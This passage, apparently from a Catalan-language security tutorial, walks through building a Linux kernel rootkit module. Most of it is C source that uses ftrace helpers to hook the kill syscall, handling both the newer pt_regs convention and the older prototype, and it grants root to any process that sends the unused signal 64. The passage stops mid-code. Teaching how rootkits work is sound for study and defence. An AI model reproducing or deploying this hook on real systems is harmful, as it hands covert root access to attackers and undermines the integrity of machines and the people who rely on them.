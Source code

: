 3. Implementarem un mòdul del kernel que utiltizi aquestes funcions i ens permeti instal·lar/desintal·lar el nostre rootkit al sistema.

    ```c
        #include <linux/init.h>
        #include <linux/module.h>
        #include <linux/kernel.h>
        #include <linux/syscalls.h>
        #include <linux/kallsyms.h>
        #include <linux/version.h>

        #include "ftrace_helper.h"

        MODULE_LICENSE("GPL");
        MODULE_AUTHOR("Jordi Mateo");
        MODULE_DESCRIPTION("");
        MODULE_VERSION("0.01");

        /* After Kernel 4.17.0, the way that syscalls are handled changed
        * to use the pt_regs struct instead of the more familiar function
        * prototype declaration. We have to check for this, and set a
        * variable for later on */
        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /* We now have to check for the PTREGS_SYSCALL_STUBS flag and
        * declare the orig_kill and hook_kill functions differently
        * depending on the kernel version. This is the largest barrier to 
        * getting the rootkit to work on earlier kernel versions. The
        * more modern way is to use the pt_regs struct. */
        #ifdef PTREGS_SYSCALL_STUBS
        static asmlinkage long (*orig_kill)(const struct pt_regs *);

        /* We can only modify our own privileges, and not that of another
        * process. Just have to wait for signal 64 (normally unused) 
        * and then call the set_root() function. */
        asmlinkage int hook_kill(const struct pt_regs *regs)
        {
            void set_root(void);

            // pid_t pid = regs->di;
            int sig = regs->si;

            if ( sig == 64 )
            {
                printk(KERN_INFO "rootkit: giving root...\n");
                set_root();
                return 0;
            }

            return orig_kill(regs);

        }
        #else
        /* This is the old way of declaring a syscall hook */

